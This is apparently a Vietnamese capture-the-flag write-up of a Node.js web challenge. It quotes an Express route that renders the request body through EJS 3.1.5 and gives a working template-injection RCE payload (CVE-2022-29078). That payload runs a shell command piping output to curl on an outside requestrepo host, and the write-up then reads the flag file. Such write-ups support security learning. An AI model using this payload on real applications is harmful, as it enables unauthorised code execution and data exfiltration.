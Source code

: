# it-s

![image-20230605221019711](./assets/image-20230605221019711.png)

```
.
├── Dockerfile
├── data
│   ├── WiredTiger
│   ├── WiredTiger.lock
│   ├── WiredTiger.wt
│   ├── WiredTiger.wt.1
│   ├── WiredTiger.wt.2
│   ├── journal
│   └── mongod.lock
├── docker-compose.yml
├── flag
├── init.sh
├── models
│   └── user.js
├── package.json
├── routes
│   └── index.js
├── server.js
└── views
    ├── css
    │   └── main.css
    ├── data.ejs
    ├── error.ejs
    ├── forget.ejs
    ├── index.ejs
    └── login.ejs

6 directories, 20 files
```

Trang web này có chức năng đăng kí, đăng nhập

![image-20230605221319724](./assets/image-20230605221319724.png)

Sau khi đăng nhập thì trang web hiển thị ra thông tin của user

![image-20230605221952402](./assets/image-20230605221952402.png)

Ngoài các route `/, /login, /logout` không có gì đặc biệt, còn trong `/profile` thì sử dụng username và email để render. Nghi ngờ đây là lỗi SSTI in ejs nên mình cũng thử reg các account có chứa payload và login vào xem thử nhưng đều fail hết

```javascript
router.get('/profile', (req, res, next) => {
	User.findOne({ unique_id: req.session.userId }, (err, data) => {
		if (!data) {
			res.redirect('/');
		} else {
			return res.render('data.ejs', { "name": data.username, "email": data.email });
		}
	});
});
```

Ngoài ra còn có route `/error-log` để hiển thị các lỗi trong đó có `res.render('error.ejs',body);`, nếu mình bypass được qua các điều kiện ở trên thì có thể sử dụng body để render trang web

```javascript
router.post('/error-log', (req, res, next) => {
	//chi~ admin moi' log duoc. loi^~
	User.findOne({ email: 'admin@admin.com' }, (err, data) => {
		if (data) {
		let body = req.body;
		if(!body.email||!body.password){return next(err)}
		if(body.email&&body.password){
			if(body.email!=data.email&&body.password!=data.password){
				return next(err)
			}
		}
		//log(body)
		return res.render('error.ejs',body);
		} else {
			res.send({ "Error": "Admin Email Is not registered!" });
		}
	});
	
});
```

Trong `error.ejs` sử dụng `message` để hiển thị lỗi

```html
		<div>
			<center>
				<p><% if (typeof message !== 'undefined' && message.length > 0) { %>
                    <%= message %>
                  <% } %></p>
			</center>
		</div>
```

Mình truyền vào body tham số message -> xác định endpoint là ở route này

![image-20230605223134384](./assets/image-20230605223134384.png)

Mình cũng đã phát hiện đc phiên bản của ejs là `"ejs": "3.1.5"` nên mình có thể sử dụng payload theo trang này để thực hiện RCE thông qua điều khiển các giá trị trong `settings[view options]`, ejs sẽ nhận các giá trị mà mình truyền vào [EJS, Server side template injection RCE (CVE-2022-29078) - writeup | ~#whoami ](https://eslam.io/posts/ejs-server-side-template-injection-rce/)

```json

{"email":"admin@admin.com","password":"123", "message": "longkd719","settings":{   "view options":{"outputFunctionName":"x;process.mainModule.require('child_process').execSync('echo RCE | curl -d @- dqmw8xnn.requestrepo.com');s"}}}
```

![image-20230605223746031](./assets/image-20230605223746031.png)

RCE thành công

![image-20230605223816484](./assets/image-20230605223816484.png)

`cat /flag`

![image-20230605224843264](./assets/image-20230605224843264.png)

`Flag: HCMUS-CTF{L3ts_D0_Bug_B0unty_W1th_55TI}`